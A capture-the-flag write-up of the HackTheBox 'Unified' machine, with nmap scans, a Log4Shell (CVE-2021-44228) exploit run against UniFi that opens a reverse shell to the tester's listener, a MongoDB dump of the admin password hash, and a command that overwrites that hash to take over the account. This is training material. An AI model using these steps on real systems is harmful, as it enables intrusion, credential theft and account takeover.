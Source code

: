 ```yaml
---
title: "HTB — Tier 2 Starting Point: Unified"
published: 2025-07-11
description: ''
image: ''
tags: [HackTheBox]
category: 'CyberSec'
draft: false 
lang: 'en'
---
```


# Enumeration

## nmap

```plaintext
PORT     STATE SERVICE
22/tcp   open  ssh
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
6789/tcp open  ibm-db2-admin
8080/tcp open  http-proxy
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Did not follow redirect to https://10.129.209.113:8443/manage
8443/tcp open  https-alt
| http-title: UniFi Network
|_Requested resource was /manage/account/login?redirect=%2Fmanage
| ssl-cert: Subject: commonName=UniFi/organizationName=Ubiquiti Inc./stateOrProvinceName=New York/countryName=US
| Subject Alternative Name: DNS:UniFi
| Not valid before: 2021-12-30T21:37:24
|_Not valid after:  2024-04-03T21:37:24
```

- 22,6789,8080,8443

```plaintext
PORT     STATE    SERVICE         VERSION
22/tcp   open     ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
1031/tcp filtered iad2
2401/tcp filtered cvspserver
6789/tcp open     ibm-db2-admin?
7103/tcp filtered unknown
8080/tcp open     http            Apache Tomcat (language: en)
8443/tcp open     ssl/nagios-nsca Nagios NSCA
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Finding Attack Vector

- unified version : 6.4.54
- CVE-2021-44228
- python3 exploit.py -u <https://10.129.209.113:8443> -i 10.10.14.159 -p 4444
- username = michael
- user.txt
  - 6ced1a6a89e666c0****************
- export TERM=xterm
- export TERM=xterm-256color
- <https://www.hackthebox.com/blog/Whats-Going-On-With-Log4j-Exploitation>
- upgrade terminal shell
  - script /dev/null -c bash
- mongodb default database dump
  - mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);`
  - db.admin.find()

```bash
unifi@unified:/usr/lib/unifi$ mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
Each(printjson);"7 ace --eval "db.admin.find().forE
MongoDB shell version v3.6.3
connecting to: mongodb://127.0.0.1:27117/ace
MongoDB server version: 3.6.3
{
        "_id" : ObjectId("61ce278f46e0fb0012d47ee4"),
        "name" : "administrator",
        "email" : "administrator@unified.htb",
        "x_shadow" : "$6$Ry6Vdbse$8enMR5Znxoo.WfCMd/Xk65GwuQEPx1M.QP8/qHiQV0PvUc3uHuonK4WcTQFN1CRk3GwQaquyVwCVq8iQgPTt4.",
}

```

- new pass (password)

```plaintext
$6$UwwBFErYxwlTxcc1$pixniPrk2FyE29v2IDRdtSNGhcqf1kpcotZsrx.w3/nr/WgAVd0WjPaeYVAAWqOfS38J6He/bjRJi74rJF07j0
```

- update password
  - db.admin.update()

```bash
mongo --port 27117 ace --eval 'db.admin.update({"_id": ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"$6$UwwBFErYxwlTxcc1$pixniPrk2FyE29v2IDRdtSNGhcqf1kpcotZsrx.w3/nr/WgAVd0WjPaeYVAAWqOfS38J6He/bjRJi74rJF07j0"}})
```

- root.txt
  - e50bc93c75b634e4****************
